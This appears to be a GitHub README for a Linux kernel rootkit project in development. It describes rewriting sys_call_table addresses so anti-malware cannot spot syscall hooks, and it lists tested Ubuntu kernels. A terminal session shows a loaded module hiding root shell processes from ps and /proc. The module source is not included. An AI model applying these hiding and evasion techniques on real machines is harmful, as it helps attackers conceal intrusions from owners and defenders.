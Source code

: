 # No releases yet

This software is under development.  
There's not even 1 release yet.  
  
# Hooking technique

The idea is to replace the addresses of the sys_call_table in the whole kernel, avoiding anti malware to find hook handlers on the sys_call_table.  
It must find the rootkit's sys_call_table from the opcodes in the kernel.  

# Tested versions

Until commit https://github.com/D1W0U/ARP-RootKit/commit/3ac1022783b8b81225a54989fe10513c31e93a0b, those Linux Kernel versions are tested (under Ubuntu):  
- 4.13.0-32-generic
- 4.13.0-31-generic  
- 4.13.0-26-generic  
- 4.11.0-13-generic  
- 4.10.0-42-generic  
- 4.10.0-14-generic  
- 4.8.0-36-generic  
- 4.4.0-101-generic  

But the rootkit is still in development. And atm doesn't stealths anything, nor give backdoor access. It just finds the places where sys_call_tables are, preparing the project (ttw I gave support to the before versions), to start the part of a rootkit itself.  

# The first commit of this project

At the beggining, I started doing research of ways of implementing a rootkit without hooking syscalls.  
And I found a way of hidding PIDs. The problem is that the process can't terminate ever.  
But maybe hooking sys_exit and restoring the pid into the structures of the kernel, it would be possible.  

Below an example of the working `rootkit.c` first commit:  

```
diwou@diwou-VirtualBox:~/arprootkit$ ps auwx | grep bash | grep root
root      3924  0.0  0.1  61932  4052 pts/9    S    13:10   0:00 sudo bash
root      3925  0.0  0.1  29960  5444 pts/9    S+   13:10   0:00 bash
diwou@diwou-VirtualBox:~/arprootkit$ grep 392 rootkit.c
        hide_pid(3924);
        hide_pid(3925);
diwou@diwou-VirtualBox:~/arprootkit$ sudo insmod rootkit.ko
find_vpid ffff9df24f34c180
Ok
find_vpid ffff9df24f34cb00
Ok
diwou@diwou-VirtualBox:~/arprootkit$ ps auwx | grep bash | grep root
diwou@diwou-VirtualBox:~/arprootkit$ ls /proc/3924
ls: no se puede acceder a '/proc/3924': No existe el archivo o el directorio
diwou@diwou-VirtualBox:~/arprootkit$ ls /proc/3925
ls: no se puede acceder a '/proc/3925': No existe el archivo o el directorio
diwou@diwou-VirtualBox:~/arprootkit$ sudo rmmod rootkit
Ok
Ok
diwou@diwou-VirtualBox:~/arprootkit$ ps auwx | grep bash | grep root
root      3924  0.0  0.1  61932  4052 pts/9    S    13:10   0:00 sudo bash
root      3925  0.0  0.1  29960  5444 pts/9    S+   13:10   0:00 bash
```

Here the https://github.com/D1W0U/ARP-RootKit/commit/217e1473cb41911f78fa7c8388e7d6ff2cc868cb
